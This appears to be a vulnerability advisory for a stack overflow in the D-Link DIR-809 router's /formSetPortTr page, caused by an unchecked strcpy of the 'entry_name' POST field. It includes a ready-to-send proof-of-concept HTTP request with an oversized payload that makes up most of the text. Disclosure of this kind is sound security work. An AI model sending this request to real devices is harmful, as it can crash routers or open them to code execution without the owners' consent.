

# D-Link DIR809 Vulnerability

The Vulnerability is in page `/formSetPortTr` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `sub_80046EB4`( page `/formSetPortTr` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description of the first vulnerability,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"entry_name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `v28` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `v19`. 




## PoC

``` 
POST /formSetPortTr.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 4210
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Special_Applications.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=YF608CCB25
Connection: close

settingsChanged=1&curTime=1620559041239&HNAP_AUTH=6946CD2354C87A2E9E189EFFB61EECD9+1620559041&submit-url=%2FAdvanced%2FSpecial_Applications.asp&used_0=0&enabled_0=0&entry_name_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&trigPortRng_0=9090&trigPortPtc_0=6&sched_name_0=aaaaaaaaa&inputPortRng_0=9091&inputPortPtc_0=6&used_1=0&enabled_1=0&entry_name_1=&trigPortRng_1=&trigPortPtc_1=6&sched_name_1=Always&inputPortRng_1=&inputPortPtc_1=6&used_2=0&enabled_2=0&entry_name_2=&trigPortRng_2=&trigPortPtc_2=6&sched_name_2=Always&inputPortRng_2=&inputPortPtc_2=6&used_3=0&enabled_3=0&entry_name_3=&trigPortRng_3=&trigPortPtc_3=6&sched_name_3=Always&inputPortRng_3=&inputPortPtc_3=6&used_4=0&enabled_4=0&entry_name_4=&trigPortRng_4=&trigPortPtc_4=6&sched_name_4=Always&inputPortRng_4=&inputPortPtc_4=6&used_5=0&enabled_5=0&entry_name_5=&trigPortRng_5=&trigPortPtc_5=6&sched_name_5=Always&inputPortRng_5=&inputPortPtc_5=6&used_6=0&enabled_6=0&entry_name_6=&trigPortRng_6=&trigPortPtc_6=6&sched_name_6=Always&inputPortRng_6=&inputPortPtc_6=6&used_7=0&enabled_7=0&entry_name_7=&trigPortRng_7=&trigPortPtc_7=6&sched_name_7=Always&inputPortRng_7=&inputPortPtc_7=6&used_8=0&enabled_8=0&entry_name_8=&trigPortRng_8=&trigPortPtc_8=6&sched_name_8=Always&inputPortRng_8=&inputPortPtc_8=6&used_9=0&enabled_9=0&entry_name_9=&trigPortRng_9=&trigPortPtc_9=6&sched_name_9=Always&inputPortRng_9=&inputPortPtc_9=6&used_10=0&enabled_10=0&entry_name_10=&trigPortRng_10=&trigPortPtc_10=6&sched_name_10=Always&inputPortRng_10=&inputPortPtc_10=6&used_11=0&enabled_11=0&entry_name_11=&trigPortRng_11=&trigPortPtc_11=6&sched_name_11=Always&inputPortRng_11=&inputPortPtc_11=6&used_12=0&enabled_12=0&entry_name_12=&trigPortRng_12=&trigPortPtc_12=6&sched_name_12=Always&inputPortRng_12=&inputPortPtc_12=6&used_13=0&enabled_13=0&entry_name_13=&trigPortRng_13=&trigPortPtc_13=6&sched_name_13=Always&inputPortRng_13=&inputPortPtc_13=6&used_14=0&enabled_14=0&entry_name_14=&trigPortRng_14=&trigPortPtc_14=6&sched_name_14=Always&inputPortRng_14=&inputPortPtc_14=6&used_15=0&enabled_15=0&entry_name_15=&trigPortRng_15=&trigPortPtc_15=6&sched_name_15=Always&inputPortRng_15=&inputPortPtc_15=6&used_16=0&enabled_16=0&entry_name_16=&trigPortRng_16=&trigPortPtc_16=6&sched_name_16=Always&inputPortRng_16=&inputPortPtc_16=6&used_17=0&enabled_17=0&entry_name_17=&trigPortRng_17=&trigPortPtc_17=6&sched_name_17=Always&inputPortRng_17=&inputPortPtc_17=6&used_18=0&enabled_18=0&entry_name_18=&trigPortRng_18=&trigPortPtc_18=6&sched_name_18=Always&inputPortRng_18=&inputPortPtc_18=6&used_19=0&enabled_19=0&entry_name_19=&trigPortRng_19=&trigPortPtc_19=6&sched_name_19=Always&inputPortRng_19=&inputPortPtc_19=6&used_20=0&enabled_20=0&entry_name_20=&trigPortRng_20=&trigPortPtc_20=6&sched_name_20=Always&inputPortRng_20=&inputPortPtc_20=6&used_21=0&enabled_21=0&entry_name_21=&trigPortRng_21=&trigPortPtc_21=6&sched_name_21=Always&inputPortRng_21=&inputPortPtc_21=6&used_22=0&enabled_22=0&entry_name_22=&trigPortRng_22=&trigPortPtc_22=6&sched_name_22=Always&inputPortRng_22=&inputPortPtc_22=6&used_23=0&enabled_23=0&entry_name_23=&trigPortRng_23=&trigPortPtc_23=6&sched_name_23=Always&inputPortRng_23=&inputPortPtc_23=6
```